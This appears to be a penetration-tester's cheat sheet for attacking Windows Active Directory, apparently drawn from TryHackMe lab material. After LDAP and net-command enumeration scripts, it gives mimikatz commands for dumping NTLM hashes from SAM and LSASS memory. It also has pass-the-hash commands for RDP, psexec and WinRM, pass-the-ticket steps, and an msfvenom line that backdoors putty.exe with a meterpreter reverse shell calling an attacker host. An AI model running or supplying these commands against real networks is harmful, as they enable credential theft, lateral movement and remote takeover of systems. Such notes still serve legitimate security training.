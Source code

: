 # Active Directory

## Net commands  

Local user accounts.  

`net user`  

All domain user accounts with /domain flag.  

`net user /domain`  

Display information about a specific user.  

`net user bob_admin /domain`  

Enumerate all groups on the domain.  

`net group /domain`  

## Users  

Powershell script to collect all users.  

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="samAccountType=805306368"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    
    Write-Host "------------------------"
}

```
## Nested groups  

Using the script to enumerate groups.  

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="(objectClass=Group)"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    $obj.Properties.name
}
```  

The above script output can be enumrated for members that are groups (nested).  

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="(name=Secret_Group)"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    $obj.Properties.member
}

```  




## NTLM hash

NTLM hashes from local SAM.

    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # lsadump::sam

NTLM hashes from LSASS memory.

    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # sekurlsa::msv

Using extracted hashes for pass the hash.

    mimikatz # token::revert
    mimikatz # sekurlsa::pth /user:elliot.alderson /domain:za.tryhackme.com /ntlm:654e4545455e5de /run:"some command"


RDP PTH

    xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

psexec PTH

    psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP

WinRM PTH

    evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH

Pass-the-Ticket

    mimikatz # privilege::debug
    mimikatz # sekurlsa::tickets /export

Once the desired ticket has been extracted.

`mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi`  

Backdoor .exe files.

`msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe`  

  

